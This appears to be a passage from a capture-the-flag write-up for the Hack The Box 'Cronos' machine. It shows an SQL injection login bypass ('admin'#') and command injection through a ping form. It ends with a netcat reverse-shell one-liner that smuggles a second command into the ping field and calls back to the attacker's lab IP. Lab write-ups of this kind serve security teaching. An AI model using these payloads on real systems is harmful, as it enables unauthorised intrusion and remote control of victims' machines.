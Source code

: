 <span style="color:cyan">http://admin.cronos.htb</span>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(2).png)

## Initial Foothold

<span style="color:cyan">http://admin.cronos.htb</span>


We tried default creds such as admin admin
But nothing worked

Let's try some sql injection : [link](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

>admin'#

It worked

![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(3).png)

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(4).png)

I found a ping option, let's use it and see if I can ping back my local machine.

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(5).png)



The ping is working.

Seems like an attack vector. Let's capture the request using burpsuite.



<span style="color:yellow">Method 1 (Using burpsuite):</span>

Change the command:

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(6).png)

Hit FORWARD.

![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(7).png)

<span style="color:yellow">Method 2:</span>

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(8).png)

Output:

![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(9).png)



Grab a shell from [here](https://www.revshells.com/).

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.23 1234 >/tmp/f</span></div>
<br>
